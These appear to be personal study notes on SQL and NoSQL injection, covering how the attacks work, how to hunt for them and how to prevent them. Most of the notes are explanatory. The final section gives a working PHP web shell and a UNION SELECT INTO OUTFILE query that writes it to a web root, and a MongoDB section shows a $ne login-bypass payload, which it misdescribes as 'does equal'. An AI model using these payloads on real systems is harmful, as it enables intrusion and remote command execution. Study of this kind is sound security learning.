### SQL Injections
#
* Similar to XSS, this executes incorrectly filtered or escaped SQL commands to an app's database.
* Leads to authentication bypass, data leaks, tampering and RCE.
* Login prompts are an avenue for these vulnerabilities since you are submitting queries for login information.

### Second-Order SQL Injections
#
* First order injections are when user input is used directly in a SQL query.
* Second order is when you retrieve stored user input from the database.

### Prevention
#
* Prepared statements/Parameterized queries. 
    * These make injections practically impossible by ensuring user input doesn't alter SQL logic.
    * The SQL servers compiles the SQL query before any user input is inserted. You'd define
    the logic first before the input data.
    * Anything that deviates from this logic will be treated as a string that is uncapable of executing.
* Create an allowlist for values. You could allow operators like ORDER BY for example.
* Escaping/Sanitizing.
    * ' and " should be fixed.
    * **Different databases have specific characters.**

### Hunting SQL Injections
#
* Categorized into classic & blind varieties.
* Common technique is to insert a single ' then for errors or odd behavior.
* The ' denotes the end of a query string.
* Introducing or experiencing time delays could be a hint.
* Fuzzing
* **Classic** - SQL queries that are returned directly to the attacker.
#
* **Blind** - Harder to find because the web app doesn't return SQL data or error messages. Also called **Inferential SQL injections**.
* These are normally boolean or time based.
* Boolean testing involves sending test conditions to recieve true/false return values. Infering info.
* Time-based injections rely on response times between different payloads. This is meant more for apps that dont give visual clues.

### NoSQL Injections
#
* Stands for Not-Only SQL. Does not use SQL.
* SQL stores data in tables. NoSQL stores data in key-value pairs and graphs.
* Syntax is database specific:
    * MongoDB: Users.find({username:'vickie',password:'password123'})
    * Replace 'password123' with {$ne: ""}. This searches for a paired value that does equal " ". You can find passwords this way.
    * You can execute JavaScript as well. $where,mapReduce,$accumulator, and $function.
    * Characters like ' , ", ; , \ , () , [] , and {} can be used.
### Prevention
#
* Validators
* Disable server-side JavaScript with --noscripting on the CMD.
* Disable security.javascriptEnabled on the config file.
* **Principle of least priviledge** - only give apps the priviledges they need.

### Enumerating the service
#
* @@version on Microsoft SQL server & MySQL
* v$version for Oracle.

### Gain a web shell
#
* <<meta>? system($_REQUEST['cmd']); ?>
* Create a file onm the server with a nonexistant user:
    * SELECT Password FROM Users WHERE Username='abc'
      UNION SELECT "<? system($_REQUEST['cmd']); ?>"
      INTO OUTFILE "/var/www/html/shell.php"
    * Password is blank, so you can upload that cmd script then visit that scripts URL to execute it.
    * h<span>ttp://www.example.com/shell.php?cmd=COMMAND<span>
